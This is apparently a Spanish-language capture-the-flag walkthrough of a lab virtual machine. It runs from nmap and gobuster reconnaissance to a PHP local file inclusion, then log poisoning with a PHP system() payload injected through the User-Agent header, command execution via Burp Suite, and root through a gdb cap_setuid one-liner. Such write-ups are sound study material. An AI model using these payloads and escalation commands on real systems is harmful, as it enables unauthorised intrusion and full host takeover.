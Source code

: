 


# PortScan

```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web

![[Pasted image 20231025182531.png]]

# Fuzzing de Sitio Web.

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![[Pasted image 20231025182939.png]]

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![[Pasted image 20231025184632.png]]
Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![[Pasted image 20231025185034.png]]

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![[Pasted image 20231025185353.png]]

Para controlar desde la URL la ejecución de comando, como podemos ver:

![[Pasted image 20231025185808.png]]
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![[Pasted image 20231025195554.png]]





